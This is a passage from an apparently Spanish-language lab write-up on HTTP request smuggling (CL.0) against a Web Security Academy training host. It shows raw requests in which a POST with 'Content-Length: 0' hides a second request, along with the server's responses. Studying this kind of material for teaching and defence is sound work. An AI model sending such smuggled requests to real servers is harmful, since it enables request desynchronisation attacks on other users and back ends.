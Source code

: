 Request 2:
```http
XGET / HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
\r\n
```
Pero claro… `XGET` no es un método HTTP válido, así que el servidor responde con un `Frontend only accepts methods GET, POST, HEAD`.


## Content-Length: 0 , confusión con HTTP Request Smuggling

En este ejemplo vamos a hacer una petición con `Content-Length: 0`, que a simple vista parece inofensiva… pero ojo, que puede confundir y parecer un caso de contrabando de peticiones tipo CL.0.

Request 1:
```http
POST /resources/images/avatarDefault.svg HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Connection: Keep-alive\r\n
Content-Length: 0\r\n
\r\n
POST /X HTTP/1.1\r\n
X-Ignore: X
```
Request 2:
```http
XGET / HTTP/1.1\r\n
Host: 0a4600d204a0636b805603eb009a00a8.web-security-academy.net\r\n
\r\n
```

¿Qué pasa con la respuesta?
Según lo que vemos, `XGET` debería dar error, igual que en el ejemplo anterior, ¿no? Pues no:

Response 1:
```http
HTTP/1.1 200 OK
Content-Type: image/svg+xml
...
```

Response 2:
```http
HTTP/1.1 404 Not Found
Content-Type: text/html; charset=utf-8
Set-Cookie: session=7KPckng5zUEuuf9uJwiIwOyycE9n7JTg; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=10
Content-Length: 20

<p>Not Found: /X</p>
```

¿Por qué un `404` y no un `400`?
Aquí la magia está en cómo el servidor interpreta el `Content-Length: 0` y lo que queda en el buffer.
